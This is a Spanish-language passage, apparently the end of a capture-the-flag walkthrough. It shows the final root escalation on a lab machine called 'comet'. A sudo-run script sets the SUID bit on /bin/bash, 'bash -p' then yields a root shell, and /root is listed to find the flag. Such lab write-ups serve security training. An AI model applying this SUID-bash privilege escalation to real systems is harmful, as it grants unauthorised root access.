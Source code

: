 Una vez con los archivos creados probamos a correr el programa.

```bash
joe@comet:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash

joe@comet:~$ sudo /bin/bash /home/joe/coll

joe@comet:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash

joe@comet:~$ bash -p

bash-5.1# whoami
root
```

Una vez como root, la flag se encuentra en `/root/root.txt`

```bash
bash-5.1# ls -la /root
total 24
drwx------  3 root root 4096 Feb 21 19:02 .
drwxr-xr-x 18 root root 4096 Feb 20 08:55 ..
lrwxrwxrwx  1 root root    9 Feb  6 19:33 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 Feb 19 09:08 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rwx------  1 root root   33 Feb  6 19:34 root.txt
```
